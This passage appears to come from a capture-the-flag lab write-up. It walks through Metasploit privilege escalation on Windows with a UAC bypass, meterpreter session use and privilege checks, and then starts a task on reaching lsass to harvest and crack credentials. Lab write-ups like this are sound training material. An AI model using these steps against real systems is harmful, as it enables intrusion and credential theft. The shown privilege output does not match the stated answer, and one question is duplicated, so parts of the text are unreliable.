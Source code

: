 13. Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`

```
msf5 exploit(windows/local/bypassuac_eventvwr) > sessions 1
[*] Starting interaction with 1...

meterpreter > 
```

`No answer needed`

14. We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

`No answer needed`

15. We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

`SeTakeOwnershipPrivilege`

## [Task 5] Looting

![](https://i.imgur.com/1kmEdf6.png)

Learn how to gather additional credentials and crack the saved hashes on the machine.

1. Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't).



## [Task 6] Post-Exploitation

## [Task 7] Extra Credit